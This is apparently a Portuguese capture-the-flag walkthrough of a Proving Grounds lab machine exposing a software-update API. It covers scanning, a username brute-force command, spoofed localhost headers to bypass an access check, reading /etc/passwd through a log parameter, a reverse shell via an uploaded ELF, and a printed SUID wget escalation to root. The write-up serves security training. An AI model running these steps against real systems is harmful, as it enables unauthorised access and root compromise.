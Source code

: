 ```yaml
---
title: Proving Grounds - Tokyo Ghoul
author: mithr4nd1r
date: 2022-11-29 00:00:00 -0300
categories: [Walkthrough, Proving Grounds]
tags: [writeup, walkthrough, proving, grounds, PG, tutorial, hacking, pentest, ctf, capture, flag, proof, linux, medium, médio]
mermaid: true
image: "https://mithr4nd1r.github.io/assets/img/pg/2022-12-19-writup-xposedapi/api.jpg"
pin: true
---
```


Dificuldade | Opinião | 📅 Início | 📅 Conclusão
:--:|:--:|:--:|:--:
![](/assets/img/nivel/button_medio.png) | ![](/assets/img/nivel/button_medio.png) | 14 de Dezembro de 2022 | 19 de Dezembro de 2022

## 1. Escaneamento

```bash
Nmap scan report for 192.168.160.134
Host is up (0.21s latency).
Not shown: 65533 closed ports
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 74:ba:20:23:89:92:62:02:9f:e7:3d:3b:83:d4:d9:6c (RSA)
|   256 54:8f:79:55:5a:b0:3a:69:5a:d5:72:39:64:fd:07:4e (ECDSA)
|_  256 7f:5d:10:27:62:ba:75:e9:bc:c8:4f:e2:72:87:d4:e2 (ED25519)
13337/tcp open  http    Gunicorn 20.0.4
| http-methods: 
|_  Supported Methods: HEAD GET OPTIONS
|_http-server-header: gunicorn/20.0.4
|_http-title: Remote Software Management API
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.80%E=4%D=12/14%OT=22%CT=1%CU=33249%PV=Y%DS=2%DC=T%G=Y%TM=6399E8
OS:E2%P=x86_64-pc-linux-gnu)SEQ(SP=108%GCD=1%ISR=109%TI=Z%II=I)SEQ(SP=108%G
OS:CD=1%ISR=109%TI=Z%TS=9)SEQ(SP=108%GCD=1%ISR=109%TI=Z%II=I%TS=A)OPS(O1=M5
OS:4EST11NW7%O2=M54EST11NW7%O3=M54ENNT11NW7%O4=M54EST11NW7%O5=M54EST11NW7%O
OS:6=M54EST11)WIN(W1=FE88%W2=FE88%W3=FE88%W4=FE88%W5=FE88%W6=FE88)ECN(R=N)E
OS:CN(R=Y%DF=Y%T=40%W=FAF0%O=M54ENNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F
OS:=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=N)T5(R=N)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=O%F=A
OS:R%O=%RD=0%Q=)T6(R=N)T7(R=N)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RI
OS:PCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)
```

## 2. Enumeração

### Remote Software Management (13337)

Ao entrar na página web, vemos que a aplicação é um tipo de API e ja nos é exposto algumas rotas

![Untitled](https://mithr4nd1r.github.io/assets/img/pg/2022-12-19-writup-xposedapi/exposed.png)

> /version
{: .prompt-info }

A rota `version` apenas nos retorna a versão `1.0.0b` e provavelmente um hash md5 em sequência `8f887f33975ead915f336f57f0657180`

![Untitled](https://mithr4nd1r.github.io/assets/img/pg/2022-12-19-writup-xposedapi/exposed1.png)

> /logs
{: .prompt-info }

A rota logs mostra que nosso hpst não tem acesso ao logs, provavelmente por ser acessível somente localmente.

![Untitled](https://mithr4nd1r.github.io/assets/img/pg/2022-12-19-writup-xposedapi/exposed2.png)

Seguindo a descrição da rota update, deve-se enviar um post com user e url de um arquivo elf, para ser baixado e executado. Obviamente, aqui é o ponto de entrada, porém falta o nome de usuário.

```html
/update

Methods: POST

Updates the app from ELF file. Content-Type: application/json {"user":"<user requesting the update>", "url":"<url of the update to download>"}
```

> /update
{: .prompt-info }

Como forma de descobrir o usuário, meu primeiro pensamento foi em tentar um bruteforce, então utilizando a ferramenta ffuf, tentei encontrar um usuário cuja resposta da página não retornasse `username invalid` porém não obtive sucesso…

- Comando: `ffuf -w /usr/share/wordlists/seclists/Usernames/xato-net-10-million-usernames.txt -u [http://192.168.117.134:13337/update](http://192.168.117.134:13337/update) -X POST -H "Content-Type: application/json" -d '{"user": "FUZZ", "url": "[http://192.168.49.117](http://192.168.49.117/)"}' -fs 17 -x [http://127.0.0.1:8080](http://127.0.0.1:8080/)`

![Untitled](https://mithr4nd1r.github.io/assets/img/pg/2022-12-19-writup-xposedapi/exposed3.png)

> /restart
{: .prompt-info }

Ao enviar o restart, aparece um popup de confirmação do reinicio, porém ao clicar nele nada acontece aparentemente.

![Untitled](https://mithr4nd1r.github.io/assets/img/pg/2022-12-19-writup-xposedapi/exposed4.png)

Ao interceptar com o Burp, verifica-se que o script envia um json de confirmação via POST pra causar o reinicio. Ao replicar isso, o serviço realmente reinicia:

![Untitled](https://mithr4nd1r.github.io/assets/img/pg/2022-12-19-writup-xposedapi/exposed5.png)

Retornando a rota logs, procurei uma forma de burlar a detecção de host do sistema. Encontrei algumas dicas no HackTricks, onde sugere-se o uso de alguns headers que podem causar esse bypass.

[Rate Limit Bypass](https://book.hacktricks.xyz/pentesting-web/rate-limit-bypass)

```
X-Originating-IP: 127.0.0.1
X-Forwarded-For: 127.0.0.1
X-Remote-IP: 127.0.0.1
X-Remote-Addr: 127.0.0.1
X-Client-IP: 127.0.0.1
X-Host: 127.0.0.1
X-Forwared-Host: 127.0.0.1

#or use double X-Forwared-For header
X-Forwarded-For:
X-Forwarded-For: 127.0.0.1
```

Ao testar o segundo header, uma mensagem de erro diferente apareceu, sugerindo usar um parâmetro na url para ter acesso ao arquivo de log.

- Header: `X-Forwarded-For: 127.0.0.1`

![Untitled](https://mithr4nd1r.github.io/assets/img/pg/2022-12-19-writup-xposedapi/exposed6.png)

Como o nome do arquivo é passado, tentei passar direto o arquivo de usuários `/etc/passwd` e deu certo, nos retornando a lista de usuários, agora podemos tentar upar o arquivo `.elf` malicioso usando o usuário `clumsyadmin`.

![Untitled](https://mithr4nd1r.github.io/assets/img/pg/2022-12-19-writup-xposedapi/exposed7.png)

Pra isso, subi um servidor http em python e enviei a requisição via BURP, retornando com sucesso a requisição para nós.

![Untitled](https://mithr4nd1r.github.io/assets/img/pg/2022-12-19-writup-xposedapi/exposed8.png)

![Untitled](https://mithr4nd1r.github.io/assets/img/pg/2022-12-19-writup-xposedapi/exposed9.png)

## 3. Acesso Inicial - Exploração

Sendo assim, criei o binário com o msvenom, subi o servidor HTTP e abri uma porta de escuta para receber o shell

![Untitled](https://mithr4nd1r.github.io/assets/img/pg/2022-12-19-writup-xposedapi/exposed10.png)

Agora é necessário reiniciar o servidor e é só reenviar o post com a confirmação que descobrimos antes:

![Untitled](https://mithr4nd1r.github.io/assets/img/pg/2022-12-19-writup-xposedapi/exposed11.png)

E o shell veio:

![Untitled](https://mithr4nd1r.github.io/assets/img/pg/2022-12-19-writup-xposedapi/exposed12.png)

## 4. Pós Exploração

Como de praxe, upei o [`linpeas.sh`](http://linpeas.sh) e fiz a varredura interna de vulnerabilidades.

![Untitled](https://mithr4nd1r.github.io/assets/img/pg/2022-12-19-writup-xposedapi/exposed13.png)

A enumeração nos retornou o binário `wget` com execução de `SUID`.

![Untitled](https://mithr4nd1r.github.io/assets/img/pg/2022-12-19-writup-xposedapi/exposed14.png)

## 5. Escalação de Privilégio

Então é só seguir os comandos descritos no GTFOBins

> [wget | GTFOBins](https://gtfobins.github.io/gtfobins/wget/#suid)
{: .prompt-info }

```
TF=$(mktemp)
chmod +x $TF
echo -e '#!/bin/sh -p\n/bin/sh -p 1>&0' >$TF
./wget --use-askpass=$TF 0
```

Por fim, root.

![Untitled](https://mithr4nd1r.github.io/assets/img/pg/2022-12-19-writup-xposedapi/exposed15.png)